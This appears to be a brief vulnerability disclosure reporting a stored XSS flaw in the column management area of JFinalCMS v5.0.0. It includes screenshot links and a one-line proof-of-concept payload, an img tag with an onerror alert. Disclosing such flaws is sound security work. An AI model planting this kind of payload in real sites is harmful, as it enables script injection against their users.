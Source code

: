 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

There is a storage type XSS in the column management department


![图片](https://github.com/Rabb1ter/cms/assets/40162457/cd7dc8aa-d60f-435a-98e9-40112ce7c438)

poc: <img src=1 onerror=alert(1)>

![图片](https://github.com/Rabb1ter/cms/assets/40162457/7ab32788-03ec-41f0-beec-0a4ac44db4ac)


successed

![图片](https://github.com/Rabb1ter/cms/assets/40162457/aeb67add-d674-4511-9797-7e2895f2216c)

